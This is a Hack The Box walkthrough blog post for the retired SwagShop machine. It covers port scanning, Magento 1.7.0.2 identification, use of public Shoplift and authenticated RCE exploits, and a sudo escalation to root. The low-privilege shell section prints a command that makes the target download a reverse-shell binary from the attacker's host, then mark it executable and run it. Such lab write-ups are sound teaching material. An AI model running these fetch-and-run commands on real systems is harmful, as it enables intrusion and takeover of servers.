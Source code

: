 ```yaml
---
layout: post
title: "SwagShop: Hack The Box Walkthrough"
date: 2019-09-28 19:03:53 +0000
last_modified_at: 2019-09-28 19:03:53 +0000
category: Walkthrough
tags: ["Hack The Box", SwagShop, retired]
comments: true
image:
  feature: swagshop-htb-walkthrough.jpg
  credit: Life-Of-Pix / Pixabay
  creditlink: https://pixabay.com/photos/pigeon-bird-walking-street-road-569128/
---
```


This post documents the complete walkthrough of SwagShop, a retired vulnerable [VM][1] created by [ch4p][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

SwagShop is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.140 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-05-14 01:30:31 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.140                                    
Discovered open port 80/tcp on 10.10.10.140
```

Nothing unusual. Let's do one better with `nmap` scanning the discovered ports to establish the services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.140
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
```

The `http` service appears to be running an old version of Magento Community Edition (2014? Hello, it's 2019!). Sometimes it pays to look at the copyright notice down at the footer. Here's how it looks like.


{% include image.html image_alt="d34cc2c8.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/d34cc2c8.png" %}


Scroll down.

### Magento Community Edition 1.7.0.2

How do I know the version? Check out the release notes basically. The directory structure is also found in a GitHub repository [mirror](https://github.com/OpenMage/magento-mirror/tree/1.7.0.2) for older versions.


{% include image.html image_alt="a09563a1.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/a09563a1.png" %}


### Magento Shoplift Vulnerability

This particular version is susceptible to the Magento Shoplift vulnerability [discovered](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) by Checkpoint in 2015.

Well, there's a readily available exploit, EDB-ID [37977](https://www.exploit-db.com/exploits/37977) for it. Running this exploit will grant access to the Admin Panel with credentials (`forme:forme`).

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

This next exploit, EDB-ID [37811](https://www.exploit-db.com/exploits/37811) will allow us to execute remote commands. There are just two minor modifications to the exploit script.


{% include image.html image_alt="701cf120.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/701cf120.png" %}


We got the credentials from the previous exploit. The installation date can be obtained from `http://10.10.10.140/app/etc/local.xml` as suggested.


{% include image.html image_alt="4bfdeefa.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/4bfdeefa.png" %}


One last thing we need to know is the URL to the Admin Panel, which is `http://10.10.10.140/index.php/admin`. You can get a feel of the directory structure by navigating the site a bit, provided it doesn't give you `503`s :laugh:

## Low-Privilege Shell

I generate a reverse shell with `msfvenom`, host it with Python's SimpleHTTPServer, and also set up a `nc` listener. We then execute the exploit like so.

```
# python rce.py http://10.10.10.140/index.php/admin "wget -O/tmp/rev http://10.10.14.11/rev; chmod +x /tmp/rev; /tmp/rev"
```


{% include image.html image_alt="2654aa89.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/2654aa89.png" %}


It's customary to display `/etc/passwd`.


{% include image.html image_alt="a7d45ff6.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/a7d45ff6.png" %}


The file `user.txt` is in `haris`'s home directory and it can be disappointingly read by all.


{% include image.html image_alt="b11e7841.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/b11e7841.png" %}


## Privilege Escalation

Notice the `.sudo_as_admin_successful`?


{% include image.html image_alt="1859737a.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/1859737a.png" %}


This means that `haris` is able to `sudo` to a certain extent.


{% include image.html image_alt="4aaf3f8b.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/4aaf3f8b.png" %}


There you go, classic escape to `root` shell.


{% include image.html image_alt="6d2c05ad.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/6d2c05ad.png" %}


With that, getting `root.txt` is a breeze.


{% include image.html image_alt="87726194.png" image_src="/80556ac2-38bb-4e97-84b1-a0143436377b/87726194.png" %}


:dancer:

## Afterthought

What a neat idea to promote the SwagShop!

[1]: https://www.hackthebox.eu/home/machines/profile/188
[2]: https://www.hackthebox.eu/home/users/profile/1
[3]: https://www.hackthebox.eu/
